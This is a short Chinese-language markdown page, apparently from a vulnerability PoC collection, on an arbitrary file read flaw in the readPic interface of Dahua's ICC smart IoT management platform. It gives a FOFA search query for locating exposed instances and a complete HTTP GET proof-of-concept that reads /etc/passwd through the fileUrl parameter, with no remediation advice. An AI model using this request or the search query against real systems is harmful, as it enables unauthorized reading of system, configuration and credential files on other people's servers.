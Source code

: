 
## 大华智能物联ICC综合管理平台readpic任意文件读取漏洞
大华智慧园区综合管理平台是一款综合管理平台，具备园区运营、资源调配和智能服务等功能。该平台的 "readpic" 接口存在一个任意文件读取漏洞，恶意攻击者可通过文件读取漏洞进行访问和读取系统中的文件，包括配置文件、日志和其他敏感数据，从而利用攻击。

## fofa
```
:body="*客户端会小于800*"
```

## poc
```
GET /evo-apigw/evo-cirs/file/readPic?fileUrl=file:/etc/passwd HTTP/2
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
If-None-Match: W/"63ba2750-93e"
Te: trailers
```

![be62ca49838833e8b7527d0ab2dd5541](../../images/25cb6acd-b1bc-4012-a52e-92356d47ada5.png)
